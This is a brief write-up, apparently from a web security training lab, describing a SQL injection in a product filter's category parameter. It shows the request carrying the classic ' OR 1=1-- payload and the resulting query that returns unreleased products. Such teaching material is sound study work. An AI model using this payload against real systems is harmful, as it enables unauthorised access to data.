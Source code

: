# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

A SQLi exists in the category query parameter:

```http
GET /filter?category=’+OR+1=1--
```

```sql
SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1
```
